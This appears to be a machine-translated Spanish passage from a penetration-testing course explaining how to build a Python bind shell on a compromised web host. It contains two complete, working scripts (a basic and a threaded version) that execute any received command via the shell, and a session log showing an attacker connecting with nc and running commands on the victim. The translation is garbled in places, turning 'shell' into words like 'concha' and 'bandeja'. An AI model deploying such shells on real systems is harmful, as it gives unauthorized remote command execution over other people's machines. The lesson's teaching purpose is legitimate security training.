 # Un shell de enlace simple

---

Al obtener acceso a un servicio web interno con las credenciales que generamos utilizando la herramienta anterior, podemos obtener la ejecución de código remoto en el host web. Intentar usar nuestros conchas inversas misteriosamente no parece funcionar, pero descubrimos que podemos ejecutar scripts arbitrarios de Python. Abusemos de ese descubrimiento implementando y ejecutando nuestra propia Python`bind shell`.

Un caparazón de enlace es en su núcleo razonablemente simple. Es un proceso que se une a una dirección y puerto en la máquina host y luego escucha las conexiones entrantes al socket. Cuando se realiza una conexión, el shell de enlace, repetidamente, escuchará a los bytes que se le envían y los tratará como comandos sin procesar que se ejecutarán en el sistema en un subproceso. Una vez que haya recibido todos los bytes en trozos de algún tamaño, ejecutará el comando en el sistema de host y enviará la salida. Una implementación muy ingenua de tal shell de enlace es esta:

#### Un shell de enlace simple

Código:pitón

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

Dado que enviaremos esto a nuestro cliente, mejoraremos la calidad del código y lo haremos más confiable. Sin embargo, primero, analicémoslo.

El código consta de dos funciones hasta ahora: una función de envoltura para ejecutar comandos en el sistema y una función principal que contiene toda la lógica lanzada a un solo lugar. Esto es menos que ideal. La función principal establece un socket, se une a`0.0.0.0`(es decir, todas las interfaces disponibles) y el puerto deseado. Luego se configura para permitir como máximo cuatro conexiones no aceptadas antes de que comience a rechazar más las conexiones: el`listen`La función configura esto. El socket luego acepta nuevas conexiones entrantes. Esto es un llamado`blocking call`, lo que significa que el código se detendrá en esta línea de código y esperará una conexión. Cuando se establece una conexión, el`accept`la llamada devuelve dos cosas que almacenamos en las variables`client_socket`y`address`.

Muchas cosas suceden en el bucle de tiempo, así que déjanos desglosarlo en piezas más pequeñas. Primero, estos son nuestros objetivos:

- Reciba todos los bytes entrantes del cliente conectado (nuestra máquina de atacantes),
    
- convertir los bytes entrantes a un`cmd`cadena,
    
- Cierre la conexión si`cmd`es "salida",
    
- De lo contrario, ejecute el comando localmente y envíe la salida
    

Observe que eliminamos el último byte del`cmd`cadena. Esta es una dirección de carácter de nueva línea al presionar Enter al escribir el comando.

Cuando ejecutamos este script en nuestra máquina de destino, podemos usar`nc`En nuestra máquina de atacantes para conectarse al bandeo de enlace y obtener la ejecución del código remoto:

#### Iniciando el bande

  Un shell de enlace simple

```cmd-session
C:\Users\Birb\Desktop\python> python bindshell.py --port 4444
```

#### Conectarse a la bandeja de enlace

  Un shell de enlace simple

```shell-session
xnoxos@htb[/htb]$ nc 10.10.10.10 4444 -nv

(UNKNOWN) [10.10.10.10] 4444 (?) open

whoami
localnest\birb

hostname
LOCALNEST

dir 
Volume in drive C has no label.
 Volume Serial Number is 966B-6E6A

 Directory of C:\Users\Birb\Desktop\python

20-03-2021  21:22    <DIR>          .
20-03-2021  21:22    <DIR>          ..
20-03-2021  21:22               929 bindshell.py
               1 File(s)            929 bytes
               2 Dir(s)  518.099.636.224 bytes free
exit
```

La desventaja de la implementación actual es que una vez que desconectamos, el proceso de bandeja de enlace se detiene. Una forma de solucionar esto es introducir`threads`y tenga la parte de ejecución de comando del código ejecutado en un hilo. Esto nos permitiría crear un nuevo hilo cada vez que una máquina se conecta a la carcasa, y luego solo tendríamos que detener el hilo adicional cuando salga la carcasa. Threads, en general, es un tema vasto y complejo, y Python también tiene sus peculiaridades. Para mantener una historia muy larga y complicada corta y directa, los hilos nos permiten ejecutar diferentes piezas de código`concurrently`, de manera similar a cómo los humanos multitarea. Tenga en cuenta que simultáneamente no es lo mismo que paralelo. En nuestro ejemplo, esto significa que, si bien un hilo está ocupado trabajando para nuestro cliente conectado, otro hilo (el principal) está listo para aceptar una nueva conexión entrante. Una vez que se realiza otra conexión, estos dos clientes conectados pueden ejecutar código en la máquina víctima usando el mismo shell de enlace.

Simplemente extrayendo el código que maneja la ejecución del comando a su función, es posible hacer que el shell de enlace primero escuche una nueva conexión, genere un hilo para esa conexión que maneja la ejecución del comando y finalmente comience a escuchar nuevas conexiones entrantes.

#### Admitiendo múltiples conexiones

Código:pitón

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```

Como podemos ver, hemos agregado un`handle_input`función que acepta un`client_socket`como parámetro. Cuando creamos un nuevo`Thread`objeto, configurar el`target`(función para ejecutar) y los parámetros de entrada como tupla, podemos iniciar este hilo y dejar que se ejecute en segundo plano. Además, un`from threading import Thread`fue agregado en la parte superior. Además, preste mucha atención al`args`en el`Thread`constructor. Esta es una tupla con solo un valor. Para diferenciar entre tuples de valor único y "padres de alcance", por ejemplo,`('Hello ' + 'world').upper()`Que tendrá`upper()`llamado a la cadena concatenada y no solo "mundo", la sintaxis para el valor único de las tuplas es`(val1, )`. Para dos valores de tuplas, es`(val1, val2)`y así sucesivamente. Además, sí, esa es una coma y luego nada para tuples de valor único. Confuso? Tal vez. Solo recuerda que`(5)`es lo mismo que`5`Debido a que las shesshes se usan para la agrupación, necesitaríamos alguna forma de diferenciar entre la agrupación sintáctica y un tipo de tupla.